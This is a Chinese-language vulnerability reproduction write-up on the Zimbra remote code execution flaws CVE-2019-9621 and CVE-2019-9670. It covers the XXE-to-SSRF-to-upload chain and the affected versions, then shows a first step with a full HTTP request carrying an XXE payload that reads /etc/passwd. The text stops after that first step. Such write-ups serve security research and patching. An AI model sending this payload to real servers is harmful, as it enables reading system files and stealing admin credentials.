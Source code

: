 ```yaml
---
title: "（CVE-2019-9621）Zimbra 远程代码执行漏洞"
id: zhfly3310
---
```


# （CVE-2019-9621）（CVE-2019-9670）Zimbra 远程代码执行漏洞

## 一、漏洞简介

当 Zimbra 存在像任意文件读取、XXE（xml外部实体注入）这种漏洞时，攻击者可以利用此漏洞读取 localconfig.xml配置文件，获取到 zimbra admin ldap password，并通过 7071 admin 端口进行 SOAP AuthRequest 认证，得到 admin authtoken漏洞是利用XXE和ProxyServlet SSRF 漏洞拿到 admin authtoken 后，通过文件上传在服务端执行任意代码，威胁程度极高。当Zimbra服务端打来Memcached缓存服务是，可以利用SSRF攻击进行反序列化执行远程代码。不过由于Zimbra在单服务器安装中尽管Memcached虽然启动但是并没有进行使用，所以其攻击场景受到限制。

## 二、漏洞影响

ZimbraCollaboration Server 8.8.11 之前的版本都受到影响。具体来说：

*   Zimbra < 8.7.11 版本中，攻击者可以在无需登录的情况下，实现远程代码执行。
*   Zimbra < 8.8.11 版本中，在服务端使用 Memcached 做缓存的情况下，经过登录认证后的攻击者可以实现远程代码执行。

## 三、复现过程

### 第一步：检测是否存在xxe漏洞

```
POST /Autodiscover/Autodiscover.xml HTTP/1.1  
Host: www.0-sec.org  
User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 436  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1 `<!DOCTYPE xxe [

<!ELEMENT name ANY >

<!ENTITY xxe SYSTEM “file:///etc/passwd” >]>

<Autodiscover xmlns=“[http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a](http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a)”>

<Request>

<EMailAddress>aaaaa</EMailAddress>

<AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>

</Request>

</Autodiscover>` 
```
